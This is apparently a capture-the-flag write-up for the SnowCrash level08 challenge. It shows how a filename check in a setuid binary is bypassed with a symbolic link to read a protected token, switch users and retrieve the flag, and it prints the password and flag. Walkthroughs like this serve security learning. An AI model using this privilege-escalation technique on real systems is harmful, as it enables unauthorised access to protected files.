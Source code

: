 # Flag 08

In level08 home directory we found two files

```
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```
we used binary ninja again and the binary is taking a file name a an argument and reading from it and printing it's content in one condition if the argument does not contain the string `token` or it will just print `You may not access 'token'`
```
level08@SnowCrash:~$ ./level08 token 
You may not access 'token'

```
all we have to do is to give the binary our file but without the `token` word in the argument, so we used a symbolic link 😜.

```
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/link
level08@SnowCrash:~$ ./level08 /tmp/link
quif5eloekouj29ke0vouxean
level08@SnowCrash:~$ su flag08
Password: 
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f

```